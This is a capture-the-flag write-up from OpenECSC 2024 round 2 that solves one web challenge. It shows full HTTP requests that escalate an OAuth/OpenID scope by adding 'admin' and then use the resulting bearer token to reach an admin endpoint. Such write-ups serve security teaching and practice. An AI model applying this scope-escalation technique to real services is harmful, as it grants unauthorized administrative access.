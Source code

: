 # OpenECSC 2024 round 2
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/


### Index
- [Web](#web)
    - [WOauth a laundry!](#WOauth)
- [Reversing](#Reversing)
    - [anti-rev](#anti-rev)
- [Pwn](#Pwn)
    - [guessinggame](#guessinggame)
- [Misc](#misc)
    - [blindmaze](#blind_maze)
    - [revenge of the blind maze](#revenge-of-the-blind-maze)



# Web

## Woauth
Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses. <br>
Flag is in /flag.txt. <br>
Site: http://woauthalaundry.challs.open.ecsc2024.it <br>

### Solution

1. first you need to retrieve an authentication bearer token with access permissions to the admin endpoint from the openid endpoint. You do this, by adding %20admin to the scope parameter in the request. <br>
```http
GET /openid/authentication?response_type=token%20id_token&client_id=ELX4Gr0HSRZx&scope=openid%20laundry%20amenities%20admin&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce HTTP/1.1
Host: woauthalaundry.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Accept: */*
Referer: http://woauthalaundry.challs.open.ecsc2024.it/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

2. Then you can access the admin endpoint with the token. <br>
```http
GET /api/v1/admin HTTP/1.1
Host: woauthalaundry.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Accept: */*
Referer: http://woauthalaundry.challs.open.ecsc2024.it/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Authorization: Bearer 211368ac8d75406685715751112e53ba
```
